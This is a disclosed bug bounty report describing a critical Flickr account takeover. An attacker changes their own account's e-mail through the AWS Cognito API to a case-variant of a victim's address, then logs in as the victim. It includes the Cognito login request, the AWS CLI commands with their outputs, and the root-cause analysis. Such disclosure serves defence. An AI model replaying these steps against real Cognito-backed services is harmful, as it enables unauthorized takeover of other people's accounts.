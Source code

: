 # Flickr Account Takeover using AWS Cognito API

## Report Details
- **Report ID**: 1342088
- **URL**: https://hackerone.com/reports/1342088
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-09-16T23:41:34.093Z
- **Disclosed**: 2021-12-18T00:35:49.568Z

## Reporter
- **Username**: lauritz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: flickr

## Vulnerability Information
Flickr uses [Amazon Cognito](https://aws.amazon.com/de/cognito/) to implement its login functionality.

Furthermore, Flickr does not allow users to change their registered e-mail address via the user interface. This restriction can be bypassed via direct communication with the Amazon Cognito *User Pool* API.

Consider we have the following accounts:
1. flickr-benign@lauritz-holtmann.de (our victim)
2. An arbitrary other account that is controlled by the attacker - in the following flickr-attacker@lauritz-holtmann.de

At first, the malicious actor needs to obtain an Amazon `access_token`. To do so, intercept the login request that is sent from https://identity.flickr.com/:
```http
POST / HTTP/2
Host: cognito-idp.us-east-1.amazonaws.com
[...]

{
    "AuthFlow":"USER_PASSWORD_AUTH",
    "ClientId":"3ck15a1ov4f0d3o97vs3tbjb52",
    "AuthParameters":{
        "USERNAME":"flickr-attacker@lauritz-holtmann.de",
        "PASSWORD":"[REDACTED]",
        "DEVICE_KEY":"us-east-1_07032954-25bf-4781-b596-9d675d901072"
    },
    "ClientMetadata":
    {                
    }
}
```

If the provided credentials for the attacker controlled account are valid, Amazon responds with tokens:
```http
HTTP/2 200 OK
Date: Thu, 16 Sep 2021 22:51:36 GMT
[...]

{
    "AuthenticationResult":    
        {
            "AccessToken":"[REDACTED]",
            "ExpiresIn":3600,
            "IdToken":"[REDACTED]",
            "RefreshToken":"[REDACTED]",
            "TokenType":"Bearer"
        },
    "ChallengeParameters":
        {            
        }
}
```

The `access_token` can be directly used against Amazon's AWS API, for instance using the [AWS Command Line Interface](https://docs.aws.amazon.com/cli/) tool:

```bash
$ aws cognito-idp get-user --region us-east-1 --access-token eyJraWQiOiJPVj[...]
{
    "Username": "e28c344[...]",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "e28[...]"
        },
        {
            "Name": "birthdate",
            "Value": "1998-09-17"
        },
        {
            "Name": "email_verified",
            "Value": "true"
        },
        {
            "Name": "locale",
            "Value": "en-us"
        },
        {
            "Name": "given_name",
            "Value": "Axel"
        },
        {
            "Name": "family_name",
            "Value": "Attacker"
        },
        {
            "Name": "email",
            "Value": "flickr-attacker@lauritz-holtmann.de"
        }
    ]
}
```

Using the API, one is able to alter some of the user attributes - including the linked e-mail address:
```bash
$ aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQ[...] --user-attributes Name=email,Value=flickr-Benign@lauritz-holtmann.de
{
    "CodeDeliveryDetailsList": [
        {
            "Destination": "f***@l***.de",
            "DeliveryMedium": "EMAIL",
            "AttributeName": "email"
        }
    ]
}
```

Note that the registered address is **case sensitive**.
As the above output already indicates, at this stage, the e-mail address is not verified:
```bash
$ aws cognito-idp get-user --region us-east-1 --access-token eyJraWQi[...] 
{
    "Username": "e28c34[...]",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "e2[...]"
        },
        {
            "Name": "birthdate",
            "Value": "1998-09-17"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "locale",
            "Value": "en-us"
        },
        {
            "Name": "given_name",
            "Value": "Axel"
        },
        {
            "Name": "family_name",
            "Value": "Attacker"
        },
        {
            "Name": "email",
            "Value": "flickr-Benign@lauritz-holtmann.de"
        }
    ]
}
```

Strikingly, it is still possible to login at Flickr using the case-sensitive, not-verified victim e-mail address using the attacker's password:
{F1451108}
As the above video illustrates, the attacker has to make sure that within the outgoing HTTP request the capitalization of the e-mail address is as intended.

## Conclusion
The aforementioned behavior can be tracked down to the following root issues
1) Flickr does not expect e-mail addresses to be changed - still it is possible to change a user's address using the AWS Cognito API.
2) Flickr does not check whether the e-mail address is verified on login
3) Flickr normalizes the e-mail address received from AWS cognito, so that collisions are possible

## Impact

Chained as shown above, the aforementioned  vulnerabilities can be used to takeover a user's account without any user interaction. 

A malicious solely needs to know the e-mail address that is linked within a victim's account to link a crafted e-mail address to their account that can then be used to takeover the victim's account.

## Further Notices
All tests were performed against my user accounts. The user account patterns used were as follows:
* lauritz+*@wearehackerone.com
* *@lauritz-holtmann.de

Please let me know if you have any comments or questions.

## Attachments
- account-takeover.mov
